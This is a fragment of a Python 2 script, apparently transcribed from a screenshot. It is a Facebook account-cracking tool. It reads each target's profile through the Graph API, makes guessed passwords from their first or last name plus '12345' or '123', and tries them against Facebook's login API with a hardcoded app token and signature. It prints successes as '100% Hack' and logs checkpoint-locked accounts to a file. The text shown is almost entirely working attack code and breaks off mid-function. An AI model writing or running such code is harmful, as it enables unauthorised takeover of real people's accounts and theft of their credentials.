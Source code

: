 			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '12345'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;91m100% Hack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;91m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;93mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;93m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['last_name'] + '12345'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;91m100% Hack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;91m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;93mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;93m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] +'123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;91m100% Hack💉\x1b[1;97m-\x1b[1;94m✙\x1b[1;97m-' + user + '-\x1b[1;93m✙\x1b[1;91m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;93mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;93m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)